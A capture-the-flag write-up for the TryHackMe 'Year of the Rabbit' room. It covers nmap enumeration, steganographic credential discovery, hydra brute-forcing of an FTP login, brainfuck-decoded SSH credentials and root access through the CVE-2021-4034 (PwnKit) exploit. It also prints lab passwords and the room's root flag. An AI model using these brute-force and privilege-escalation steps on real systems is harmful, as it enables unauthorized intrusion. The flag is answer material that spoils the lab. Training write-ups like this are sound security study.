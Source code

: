 ```yaml
---
title: "Year of the Rabbit"
date: 2022-08-30 10:00:40 +0530
categories: [TryHackMe, THM-Linux]
tags: [Machines]
image: /assets/img/yearOfRabbit/profile.png
---
```


This is the [tryhackme](https://tryhackme.com/room/yearoftherabbit) room with difficult level `easy`.

## Enumeration.
### nmap scanning.

**Command.**
```
 nmap -sC -sV 10.10.59.107 -oN nmap-scan 
```
**Results**
```
# Nmap 7.92 scan initiated Fri May 20 22:37:30 2022 as: nmap -sC -sV -oN nmap-scan 10.10.59.107
Nmap scan report for 10.10.59.107
Host is up (0.16s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 20 22:38:15 2022 -- 1 IP address (1 host up) scanned in 45.31 seconds
```

### Burp-suit.

![image](/assets/img/yearOfRabbit/burp.png)

**Visit  the hidden directory**
```
GET /intermediary.php?hidden_directory=/WExYY2Cv-qU 
```
Then navigate to ``http://thm-machine-ip/WExYY2Cv-qU/``

This will lead us to the directory which has an image named as ``Hot_Babe.png.`` I renamed it to `bae.png.`
![image](/assets/img/yearOfRabbit/bae.png)

**Checking if there is any message in the image.**
```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ strings bae.png
```
We found a message as shown below.


>message from image
>
>Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:


## Brute-force ftp password.
```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ hydra -l ftpuser -P "ftp-passwds" -s 21 -o "ftp-results" ftp://10.10.59.107 
```
**Result.**
```
password: 5iez1wGXKfPKQ
```

## Login to ftp server.

```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ ftp 10.10.59.107
Connected to 10.10.59.107.
220 (vsFTPd 3.0.2)
Name (10.10.59.107:egovridc): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

**List ftp files.**
```
ftp> ls 
229 Entering Extended Passive Mode (|||33780|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
```

**Download  Eli's_Creds.txt from ftp server.**
```
ftp> get Eli's_Creds.txt
local: Eli's_Creds.txt remote: Eli's_Creds.txt
229 Entering Extended Passive Mode (|||12303|).
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
100% |*************************************************************************|   758      622.04 KiB/s    00:00 ETA
226 Transfer complete.
758 bytes received in 00:00 (4.46 KiB/s)
ftp> 
```

**Reading Eli's_Creds.txt.**
```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ cat Eli\'s_Creds.txt 
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

The file is obfuscated  with brainfuck, so i decided to use online [brainfuck](https://www.dcode.fr/brainfuck-language) tool to decrypt.

**Results**
```
User: eli
Password: DSpDiM1wAEwid
```

## Login into Eli's machine by using ssh.

**ssh**
```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ ssh eli@10.10.59.107 
```

>message from root 
>
>1 new message
>
>Message from Root to Gwendoline:
>"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"
>
>END MESSAGE
 
## User privilege escalation.

### Find secret message from root.
 
**s3cr3t**
```
eli@year-of-the-rabbit:~$ find /  -name *s3cr3t* 2>/dev/null
/var/www/html/sup3r_s3cr3t_fl4g.php
/usr/games/s3cr3t
```

**Reading the file.**
```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```
It contains password for user gwendoline.

**Switch to user gwendoline.**
```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password: 
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ whoami
gwendoline
```

## Root privilege escalation.

`CVE-2021-4034`
Send the files to the victim machine and run `make` then `exploit`
Results.

**Root user**
```
gwendoline@year-of-the-rabbit:~$ make
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
gwendoline@year-of-the-rabbit:~$ ls
evil.so  evil-so.c  exploit  exploit.c  Makefile  user.txt
gwendoline@year-of-the-rabbit:~$ ./exploit 
# cd /root
# ls
root.txt
# cat root.txt
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
# 
```

**End.**